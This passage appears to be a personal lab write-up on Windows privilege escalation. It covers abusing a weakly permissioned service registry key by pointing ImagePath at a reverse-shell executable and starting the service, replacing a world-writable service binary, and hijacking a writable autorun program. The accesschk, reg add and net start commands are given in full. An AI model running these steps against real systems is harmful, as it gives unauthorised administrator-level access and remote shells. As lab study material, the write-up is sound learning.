 - Some cool fact is that the path is quotes so no **Unquoted Service Path**.
- Now lets run `accesschk.exe` and lets dig deep, so run `accesschk /acceptula -uvwqk <path of registry>`(which is `HKLM\system\currentcontrolset\services\regsvc`)
- look for `RW NT AUTHORITY\INTERACTIVE(KEY_ALL_ACCESS)` in output and we're now good to exploit.
- Noe lets see the options within the registry by using `reg query HKLM\system\currentcontrolset\services\regsvc` and I found an options called `ImagePath` which takes executable value, so lets exploit it. First of all create a reverse-shell.
- Now run `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`, choose path of payload according to ur requirement.
- Now run the service, `net start regsvc` and hurray! I got the shell.

---

#### Insecure Service Executables:

- Here the File permissions of a service is accessible by all! We try to change the executable of the service and we're good to go!
- Lets run **Winpeas** specifically with **servicesinfo** module and lets see anything interesting, and the output is,

```
filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]

```

- Everyone have access to the file for the service `filepermsvc`, so we'll create a payload a reverse_shell and replace that with the executable of the service and we'll obtain shell.
- This is kind of easy compared to above.

---

### Registry

- Here we make use of Registry to find out info and we'll try to exploit!
- We're juect checking the features which we can abuse

#### Autoruns:

- Autoruns is a feature in Windows to start few services or application during startup, for example "greenshot"
- We can check them manually by running `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` - this will display autorun programs and their paths.
- The output is,

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

- We got 2 programs with path so lets test.
- Now we'll run **accesscheck** to check what permissions are available to the file-path of these autoruns
- Simply run `accesschk.exe \accepteula -wvu "<path>"`, i ran that for **My Program** autorun's path and the output statted `FILE_ALL_ACCESS`, so we can literally do anything in this folder. Mainly we can replace the original executable and restart the system and we can get the shell.
- No we need to wait till the admin login and we'll get the shell as privileges user!
- The catch here is that we need to wait till admin/owner logins or else we're good to go!

---